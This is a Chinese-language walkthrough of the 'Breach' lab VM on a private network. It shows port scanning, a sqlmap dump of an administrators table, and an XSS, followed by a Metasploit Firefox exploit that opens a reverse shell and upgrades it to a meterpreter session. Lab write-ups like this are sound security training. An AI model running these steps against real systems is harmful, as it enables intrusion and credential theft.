









## 端口扫描

```bash
┌──(kali㉿kali)-[~/workspace/breach]
└─$ sudo nmap -sT -sCV -O -p 111,57231,65535 192.168.10.3
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-06-10 01:03 EDT
Nmap scan report for 192.168.10.3
Host is up (0.00056s latency).

PORT      STATE SERVICE VERSION
111/tcp   open  rpcbind 2-4 (RPC #100000)
| rpcinfo:
|   program version    port/proto  service
|   100000  2,3,4        111/tcp   rpcbind
|   100000  2,3,4        111/udp   rpcbind
|   100000  3,4          111/tcp6  rpcbind
|   100000  3,4          111/udp6  rpcbind
|   100024  1          43203/udp6  status
|   100024  1          48855/udp   status
|   100024  1          57231/tcp   status
|_  100024  1          57770/tcp6  status
57231/tcp open  status  1 (RPC #100024)
65535/tcp open  ssh     OpenSSH 6.7p1 Debian 5+deb8u2 (protocol 2.0)
| ssh-hostkey:
|   1024 f3:53:9a:0b:40:76:b1:02:87:3e:a5:7a:ae:85:9d:26 (DSA)
|   2048 9a:a8:db:78:4b:44:4f:fb:e5:83:6b:67:e3:ac:fb:f5 (RSA)
|   256 c1:63:f1:dc:8f:24:81:82:35:fa:88:1a:b8:73:40:24 (ECDSA)
|_  256 3b:4d:56:37:5e:c3:45:75:15:cd:85:00:4f:8b:a8:5e (ED25519)
MAC Address: 00:0C:29:76:F3:F6 (VMware)
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running: Linux 3.X|4.X
OS CPE: cpe:/o:linux:linux_kernel:3 cpe:/o:linux:linux_kernel:4
OS details: Linux 3.2 - 4.9
Network Distance: 1 hop
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## web渗透

既然没开什么端口
ssh连一下看看有没有什么信息

```bash
# 所有连接都会被监控和记录#
# 鼓励未经授权的访问
# Peter，如果是你的话 - 密码在源代码中。         
# 另外，停止整天查看你的博客，享受你的假期！
```

源代码中有连接密码？
还有博客，可是目前开放的端口很少
看看其它信息吧

很离谱的是，这里的意思是密码就是`inthesource`
```bash
┌──(kali㉿kali)-[~/workspace/breach]
└─$ ssh peter@192.168.10.3 -p 65535
#############################################################################
#                  Welcome to Initech Cyber Consulting, LLC                 #
#                 All connections are monitored and recorded                #
#                     Unauthorized access is encouraged                     #
#             Peter, if that's you - the password is in the source.         #
#          Also, stop checking your blog all day and enjoy your vacation!   #
#############################################################################
peter@192.168.10.3's password:
Connection to 192.168.10.3 closed.

┌──(kali㉿kali)-[~/workspace/breach]
└─$ sudo nmap -sT --min-rate 9999 -p- 192.168.10.3
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-06-10 01:43 EDT
Nmap scan report for 192.168.10.3
Host is up (0.0025s latency).
Not shown: 65531 closed tcp ports (conn-refused)
PORT      STATE SERVICE
80/tcp    open  http
111/tcp   open  rpcbind
57231/tcp open  unknown
65535/tcp open  unknown
MAC Address: 00:0C:29:76:F3:F6 (VMware)

Nmap done: 1 IP address (1 host up) scanned in 22.63 seconds
```

这样就有了80web页面


查看源代码，得到提示，意思应该是用户是不受信任的

### SQL注入


这里用联合注入就能注入出来
```bash
sqlmap -u http://192.168.10.3/blog/index.php?search=1  --batch -D oscommerce  -T osc_administrators --dump
```
找到一个用户密码
admin/admin
然而这里完全没用

## xss


用户姓名可以xss
使用beef-xss


使用msf攻击


```bash
msf6 exploit(multi/browser/firefox_proto_crmfrequest) > options

Module options (exploit/multi/browser/firefox_proto_crmfrequest):

   Name           Current Setting               Required  Description
   ----           ---------------               --------  -----------
   ADDONNAME      HTML5 Rendering Enhancements  yes       The addon name.
   AutoUninstall  true                          yes       Automatically uninstall the addon after payload execution
   CONTENT                                      no        Content to display inside the HTML <body>.
   Retries        true                          no        Allow the browser to retry the module
   SRVHOST        0.0.0.0                       yes       The local host or network interface to listen on. This must be an address on the local machine o
                                                          r 0.0.0.0 to listen on all addresses.
   SRVPORT        8080                          yes       The local port to listen on.
   SSL            false                         no        Negotiate SSL for incoming connections
   SSLCert                                      no        Path to a custom SSL certificate (default is randomly generated)
   URIPATH                                      no        The URI to use for this exploit (default is random)


Payload options (generic/shell_reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  192.168.110.128  yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Universal (Javascript XPCOM Shell)


View the full module info with the info, or info -d command.

msf6 exploit(multi/browser/firefox_proto_crmfrequest) > set SRV
set SRVHOST  set SRVPORT
msf6 exploit(multi/browser/firefox_proto_crmfrequest) > set SRV
set SRVHOST  set SRVPORT
msf6 exploit(multi/browser/firefox_proto_crmfrequest) > set SRVHOST 192.168.110.128
SRVHOST => 192.168.110.128
msf6 exploit(multi/browser/firefox_proto_crmfrequest) > set URI
set URIHOST  set URIPATH  set URIPORT
msf6 exploit(multi/browser/firefox_proto_crmfrequest) > set URIPATH msf
URIPATH => msf
msf6 exploit(multi/browser/firefox_proto_crmfrequest) > options

Module options (exploit/multi/browser/firefox_proto_crmfrequest):

   Name           Current Setting               Required  Description
   ----           ---------------               --------  -----------
   ADDONNAME      HTML5 Rendering Enhancements  yes       The addon name.
   AutoUninstall  true                          yes       Automatically uninstall the addon after payload execution
   CONTENT                                      no        Content to display inside the HTML <body>.
   Retries        true                          no        Allow the browser to retry the module
   SRVHOST        192.168.110.128               yes       The local host or network interface to listen on. This must be an address on the local machine o
                                                          r 0.0.0.0 to listen on all addresses.
   SRVPORT        8080                          yes       The local port to listen on.
   SSL            false                         no        Negotiate SSL for incoming connections
   SSLCert                                      no        Path to a custom SSL certificate (default is randomly generated)
   URIPATH        msf                           no        The URI to use for this exploit (default is random)


Payload options (generic/shell_reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  192.168.110.128  yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Universal (Javascript XPCOM Shell)


View the full module info with the info, or info -d command.

msf6 exploit(multi/browser/firefox_proto_crmfrequest) > run
[*] Exploit running as background job 0.
[*] Exploit completed, but no session was created.

[*] Started reverse TCP handler on 192.168.110.128:4444
msf6 exploit(multi/browser/firefox_proto_crmfrequest) > [*] Using URL: http://192.168.110.128:8080/msf
[*] Server started.
[*] 192.168.110.151  firefox_proto_crmfrequest - Gathering target information for 192.168.110.151
[*] 192.168.110.151  firefox_proto_crmfrequest - Sending HTML response to 192.168.110.151
[*] 192.168.110.151  firefox_proto_crmfrequest - Sending HTML
[*] 192.168.110.151  firefox_proto_crmfrequest - Sending the malicious addon
sessions

Active sessions
===============

No active sessions.

msf6 exploit(multi/browser/firefox_proto_crmfrequest) > sessions

Active sessions
===============

No active sessions.

msf6 exploit(multi/browser/firefox_proto_crmfrequest) > [*] Command shell session 1 opened (192.168.110.128:4444 -> 192.168.110.151:55557) at 2024-06-10 06:21:45 -0400
sessions

Active sessions
===============

  Id  Name  Type                   Information  Connection
  --  ----  ----                   -----------  ----------
  1         shell firefox/firefox               192.168.110.128:4444 -> 192.168.110.151:55557 (192.168.110.151)

msf6 exploit(multi/browser/firefox_proto_crmfrequest) > use post/multi/manage/shell_to_meterpreter
msf6 post(multi/manage/shell_to_meterpreter) > set session 1
session => 1
msf6 post(multi/manage/shell_to_meterpreter) > run

[!] SESSION may not be compatible with this module:
[!]  * incompatible session platform: firefox
[*] Upgrading session ID: 1
[*] Starting exploit/multi/handler
[*] Started reverse TCP handler on 192.168.110.128:4433
[*] Sending stage (1017704 bytes) to 192.168.110.151
[*] Meterpreter session 2 opened (192.168.110.128:4433 -> 192.168.110.151:36988) at 2024-06-10 06:22:27 -0400
[*] Command stager progress: 100.00% (773/773 bytes)
[*] Post module execution completed
msf6 post(multi/manage/shell_to_meterpreter) > sessions

Active sessions
===============

  Id  Name  Type                   Information              Connection
  --  ----  ----                   -----------              ----------
  1         shell firefox/firefox                           192.168.110.128:4444 -> 192.168.110.151:55557 (192.168.110.151)
  2         meterpreter x86/linux  peter @ 192.168.110.151  192.168.110.128:4433 -> 192.168.110.151:36988 (192.168.110.151)

msf6 post(multi/manage/shell_to_meterpreter) > sessions 2
[*] Starting interaction with 2...

meterpreter > whoami
[-] Unknown command: whoami
meterpreter > ls
Listing: /home/peter
====================

Mode              Size  Type  Last modified              Name
----              ----  ----  -------------              ----
100600/rw-------  636   fil   2016-06-14 15:59:20 -0400  .ICEauthority
100600/rw-------  0     fil   2016-06-18 19:13:58 -0400  .Xauthority
100600/rw-------  5     fil   2016-07-20 21:04:36 -0400  .bash_history
100644/rw-r--r--  220   fil   2016-06-14 15:55:15 -0400  .bash_logout
100644/rw-r--r--  3515  fil   2016-06-14 15:55:15 -0400  .bashrc
040700/rwx------  4096  dir   2016-06-19 16:42:42 -0400  .cache
040700/rwx------  4096  dir   2016-06-19 16:42:42 -0400  .config
040700/rwx------  4096  dir   2016-06-19 16:42:42 -0400  .dbus
100600/rw-------  26    fil   2016-06-18 18:57:50 -0400  .dmrc
040700/rwx------  4096  dir   2016-06-19 16:42:42 -0400  .gconf
040700/rwx------  4096  dir   2016-06-19 16:42:42 -0400  .gnupg
040700/rwx------  4096  dir   2016-06-19 16:42:39 -0400  .kde
040700/rwx------  4096  dir   2016-06-19 16:42:42 -0400  .local
040700/rwx------  4096  dir   2016-06-19 16:42:38 -0400  .mozilla
100644/rw-r--r--  675   fil   2016-06-14 15:55:15 -0400  .profile
100644/rw-r--r--  66    fil   2016-06-15 11:47:08 -0400  .selected_editor
040700/rwx------  4096  dir   2016-06-19 16:42:42 -0400  .ssh
040755/rwxr-xr-x  4096  dir   2016-06-19 16:42:42 -0400  Desktop
040755/rwxr-xr-x  4096  dir   2016-06-19 16:42:42 -0400  Documents
040755/rwxr-xr-x  4096  dir   2016-06-19 16:42:42 -0400  Downloads
040755/rwxr-xr-x  4096  dir   2016-06-19 16:42:42 -0400  Music
040755/rwxr-xr-x  4096  dir   2016-06-19 16:42:42 -0400  Pictures
040755/rwxr-xr-x  4096  dir   2016-06-19 16:42:42 -0400  Public
040755/rwxr-xr-x  4096  dir   2016-06-19 16:42:42 -0400  Templates
040755/rwxr-xr-x  4096  dir   2016-06-19 16:42:42 -0400  Videos
100755/rwxr-xr-x  118   fil   2016-06-19 16:10:53 -0400  firefox.sh

meterpreter > pwd
/home/peter
meterpreter >
```
